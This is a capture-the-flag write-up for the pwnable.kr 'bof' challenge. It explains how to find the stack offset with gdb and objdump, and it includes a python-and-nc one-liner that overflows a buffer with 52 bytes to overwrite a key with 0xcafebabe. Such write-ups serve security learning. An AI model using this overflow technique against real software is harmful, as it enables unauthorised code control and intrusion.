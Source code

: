 #### pwnable-kr
##### Toddler's Bottle | bof challenge
**Note** </br>
if you are using 64 bit machine you need to install these:</br>
```
 $ sudo apt-get install libc6-i386
 $ sudo apt-get install g++-multilib
```

with these you can run bof in your system :) </br>
there are 2 way to solve this problem.

---
**one** </br>
use `gdb bof` and put breakpoint on func </br>
use `run` command and enter 32 `A` in the input </br>
Ok, lets inspect the memory. We can use `xw` to display 32bit words (instead of 8, making it easier for us to see our patterns).
```
(gdb) x/20xhw $esp
```
you can see 5 word after `A`s there is `deadbeaf`; so we must enter 13 word `A` (it means 52 `A`) and after than  `cafebabe` on the input.</br>

so use this command to make if condition be `TRUE` and after than write `cat flag` to see the flag.
</br>
```
$ (python -c "print 'A'*52+'\xbe\xba\xfe\xca'") | nc pwnable.kr 9000
```
---
**TWO**</br>
use `objdump`; on `func` you can see `$epb` has `0x2C` length.</br>
in this program, memory schema is like this:
```
|--------------------| High address
|                    |
|--------------------|
|  int key (4 Bytes) | <- method parameters
|--------------------|
|   SEIP (4 Bytes)   | <- saved EIP;(also called program counter) 
|--------------------|
|   sebp (4 Bytes)   | <- saved ebp
|--------------------|
|                    |
|        ebp         |
|    (0x2C Bytes)    |
|                    |
|--------------------|
|                    |
|--------------------| Low address
```
 so after you underestand that you can write code like [this](https://gist.github.com/Aseyed/db9c9685fef7f3b9399378f868aff3a3#file-pwnable-kr_bof-py) </br>
 run the code with python2 after that you can run `cat flag` to catch the flag

